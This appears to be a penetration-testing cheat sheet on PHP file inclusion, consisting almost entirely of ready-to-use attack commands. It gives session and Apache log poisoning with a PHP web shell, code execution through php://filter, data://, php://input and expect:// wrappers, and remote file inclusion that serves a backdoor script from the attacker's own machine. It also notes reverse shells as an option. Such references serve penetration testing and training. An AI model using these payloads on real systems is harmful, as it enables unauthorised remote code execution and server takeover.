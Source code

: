 ```bash
/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd #	Read PHP session parameters
/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E #	Poison PHP session with web shell
/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id #	RCE through poisoned PHP session
curl -s "$url/index.php" -A '<?php system($_GET["cmd"]); ?>' #	Poison server log
/index.php?language=/var/log/apache2/access.log&cmd=id #	RCE through poisoned PHP session
```

#### PHP Wrappers

Attempt to show the contents of php file:

```bash
curl http://example.com/subdir/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

Attempt to achieve code execution:

```bash
curl "http://example.com/subdir/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
# if works, then
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://example.com/subdir/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
# or a reverse shell
```

```bash
php://filter/read=convert.base64-encode/resource=index.php
```

```bash
/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id #	RCE with data wrapper
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "$url/index.php?language=php://input&cmd=id" #	RCE with input wrapper
curl -s "$url/index.php?language=expect://id" #	RCE with expect wrapper
```


#### Remote File Inclusion

- If the website is loading files or contents from remote systems, then RFI may be possible. You can go into Developer Tools to discover this in source, etc.

```bash
cp /usr/share/webshells/php/simple-backdoor.php .
python3 -m http.server
curl "http://example.com/subdir/index.php?page=http://$YOUR_IP/simple-backdoor.php&cmd=ls"
```

Windows:

```bash
view=C:/windows/system32/drivers/etc/hosts
view=//$myip/test/share
```
